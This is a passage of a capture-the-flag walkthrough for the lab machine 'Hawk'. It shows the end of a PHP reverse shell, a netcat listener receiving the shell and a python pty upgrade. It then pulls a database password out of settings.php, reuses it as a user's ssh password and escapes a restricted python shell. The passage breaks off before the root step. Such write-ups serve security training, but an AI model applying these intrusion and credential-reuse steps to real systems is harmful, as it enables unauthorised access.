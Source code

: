 ```php
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```
On getting shell we stabilise it using socat.
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.102] 41530
Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 10:17:37 up 40 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@hawk:/$ cd /tmp
```
User flag is in /home/daniel/user.txt

# PRIVILEGE ESCALATION

In settings.php in /var/www/html we find the password for mysql:
```s
 *     'driver' => 'sqlite',
 *     'database' => '/path/to/databasefilename',
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
```
This password turns out to be user daniel's ssh password.However when we enter it we see we have entered python terminal so we call a proper shell using this command:

```py
Last login: Tue Aug 10 10:33:58 2021 from 10.10.14.34
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('/bin/bash')
```
On to root:
